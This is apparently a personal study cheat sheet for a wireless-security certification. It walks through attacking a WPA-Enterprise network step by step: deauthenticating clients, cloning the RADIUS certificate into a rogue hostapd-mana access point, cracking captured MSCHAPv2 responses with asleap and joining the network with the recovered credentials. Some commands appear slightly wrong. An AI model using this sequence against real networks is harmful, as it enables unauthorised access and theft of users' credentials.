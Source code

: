 
This manual is not very good. I suggest consulting my OSWP exam report as I attacked an WPA MGT network there and documented it nicely.

### Step 1: Activate monitoring mode

```bash
airmon-ng check kill && airmon-ng start <interface>
```

### Step 2: Check AUTH column

```bash
airodump-ng <interface>
```
*Note: The AUTH column will say MGT.*

### Step 3: Capture the handshake

```bash
sudo airodump-ng -c channel -w ESSID interface
```

### Step 4: Deauthenticate the client to capture the handshake

```bash
aireplay-ng -0 0 -a ESSID -c client_ESSID interface
```

### Step 5: Analyze with Wireshark or tshark

After gathering the BSSID, ESSID, and channel:

- Use Wireshark or tshark with filters:
  ```bash
  wlan.bssid==E8:9C:12:02:66:AA && eap && tls.handshake.certificate
  ```
  or
  ```bash
  tls.handshake.type == 11,3
  ```

### Step 6: Save certificates using OpenSSL

View the Packet Details in TLSv1 Record Layer >> Handshake Protocol >> Certificate:
Handshake Protocol: Certificate item -> Certificates -> Certificate -> Export Packet Bytes save to file ca.der and server.der
```bash
openssl x509 -inform der -in cert.der -text
```

*Details needed for the attack include: Issuer information.*

### Step 7: Set up FreeRADIUS server

Install with:

```bash
sudo apt install freeradius
```

Edit the ca and server field in `ca.cnf` and `server.cnf` files respectively

```bash
sudo mousepad /etc/freeradius/3.0/certs/ca.cnf
sudo mousepad /etc/freeradius/3.0/certs/server.cnf
```


### Step 8: Prepare the certificates

Navigate to `/etc/freeradius/3.0/certs/` and run:

```bash
sudo rm dh && make
```

*Note: Ignore the error from FreeRADIUS if it expects other configurations.*

### Step 9: Configure hostapd-mana

Edit `/etc/hostapd-mana/hostapd-mana.conf` with the correct SSID, Certificate paths, and EAP file.

### Step 10: Set up `mana.eap_user`

Configure `/etc/hostapd-mana/mana.eap_user` with the desired protocols and authentication methods. Like such:
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

### Step 11: Start hostapd-mana

```bash
hostapd-mana /etc/hostapd-mana/hostapd-mana.conf
```

### Step 12: Use asleap to find a user

Run asleap with the correct command to find a user with a successful login.

```bash
asleap -C Challenge -R Response -W /usr/share/wordlists/rockyou.txt
```

### Step 13: Create `wpa_supplicant.conf` file

Add the network configuration details:

```bash
network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

### Step 14: Connect to the network

Use `wpa_supplicant` to connect:

```bash
wpa_supplicant -c <config file>
```
